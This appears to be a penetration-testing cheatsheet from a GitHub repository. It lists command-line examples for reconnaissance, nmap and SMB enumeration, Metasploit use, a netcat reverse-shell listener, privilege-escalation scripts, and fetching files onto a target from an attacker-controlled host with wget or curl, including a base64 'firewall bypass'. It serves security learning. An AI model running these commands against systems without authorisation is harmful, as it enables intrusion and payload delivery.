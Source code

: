 
# 🛠️ Pentest Tools & Cheatsheets

---

## 📍 Index

1. [Reconnaissance](#reconnaissance)
2. [Enumeration](#enumeration)
3. [Exploitation](#exploitation)
4. [Post-Exploitation](#post-exploitation)
5. [File Transfer Techniques](#file-transfer)
6. [General Tools & Cheatsheets](#general-tools)

---

## 🔍 Reconnaissance <a name="reconnaissance"></a>

### 🌐 Web Enumeration

#### Gobuster

```bash
# Directory enumeration:
gobuster dir -u http://10.10.10.121/ -w /usr/share/seclists/Discovery/Web-Content/common.txt

# DNS subdomain enumeration:
gobuster dns -d target.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt
```

> ✅ **Codes to watch**: `200 OK`, `403 Forbidden`, `301 Redirect`

#### whatweb

```bash
whatweb http://target.com
```

Detects web technologies, frameworks, CMS, etc.

#### curl

```bash
curl -IL https://target.com
```

For banner grabbing and HTTP headers.

#### Certificates

Check SSL/TLS certificate for metadata and domain info.

#### CeWL

Generate custom wordlists from website content.

---

## 🧪 Enumeration <a name="enumeration"></a>

### Nmap

```bash
nmap -sC -sV -p- target.com
nmap -sV --script=banner <target>
```

- `-sC` : default scripts
- `-sV` : version detection
- `-p-` : scan all 65535 ports

### SMB Enumeration

```bash
smbclient -N -L \\10.129.42.253
```

- `-L` : list shares
- `-N` : no password prompt

---

## 💥 Exploitation <a name="exploitation"></a>

### searchsploit

```bash
searchsploit openssh 7.2
```

### Metasploit (msfconsole)

```bash
search exploit
use <exploit_path>
set <option> <value>
check
run
```

---

## 🔧 Post-Exploitation <a name="post-exploitation"></a>

### Netcat

```bash
# Listen for reverse shell
nc -lvnp 1234
```

Flags:
- `-l`: listen
- `-v`: verbose
- `-n`: no DNS
- `-p`: port

---
### LinEnum / LinPEAS (Privilege Escalation)

scripts for finding ways to escalate privileges

## 📁 File Transfer Techniques <a name="file-transfer"></a>

### Python HTTP Server

```bash
cd /tmp
python3 -m http.server 8000
```

### Remote Host Download

```bash
# wget
wget http://<your_ip>:8000/file

# curl
curl -O http://<your_ip>:8000/file
```

### SCP

```bash
scp localfile user@remote:/tmp/
```

### Base64 Encoding (Firewall Bypass)

On local:

```bash
base64 file > file.b64
```

On target:

```bash
base64 -d file.b64 > file
```

Validate transfer:

```bash
file file
md5sum file
```

---

## 📚 General Tools & Cheatsheets <a name="general-tools"></a>

### Socat

Netcat alternative with advanced features like serial or proxy.

### Tmux Cheatsheet

[tmuxcheatsheet.com](https://tmuxcheatsheet.com/)

### Vim Basics

```text
i       → insert mode  
esc     → leave insert mode  
x       → cut character  
dw      → cut word  
dd      → cut full line  
yw      → copy word  
yy      → copy full line  
p       → paste

:1      → go to line 1  
:w      → save file  
:q      → quit  
:q!     → force quit  
:wq     → save and quit
```

### Common Ports

[PacketLife Common Ports (Archived PDF)](https://web.archive.org/web/20240315102711/https://packetlife.net/media/library/23/common-ports.pdf)
